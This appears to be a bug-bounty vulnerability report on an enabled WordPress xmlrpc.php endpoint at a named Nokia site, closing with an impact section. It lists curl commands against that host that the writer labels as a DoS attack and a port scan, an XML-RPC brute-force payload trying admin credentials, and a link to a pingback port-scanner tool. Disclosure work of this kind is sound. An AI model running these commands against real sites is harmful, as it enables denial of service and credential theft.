



# Xmlrpc.php 

# Description :
##### Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS and Start Brute Force attack . The website https://wavelite-selector.networks.nokia.com has the xmlrpc.php file enabled
##### In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

```
$ curl -d @do.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```


#### Notice that a successful response is received showing that the xmlrpc.php file is enabled.

### Now i will use 2 attacks (Dos Attack) and (Brute Force)
<hr>
## Dos Attack
```
$ curl -d @dos.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

#### Response :

<hr>

## Brute Force

##### payload

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```



## Port scanning

#### Download This Tool https://github.com/FireFart/WordpressPingbackPortScanner 

```
./wppps.rb https://wavelite-selector.networks.nokia.com/xmlrpc.php https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

## Reference :
* https://medium.com/@protector47/how-to-hack-wordpress-website-via-xmlrpc-php-61c813fa3740

# Impact
### This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.
### this method is also used for brute force attacks to stealing the admin credentials and other important credentials
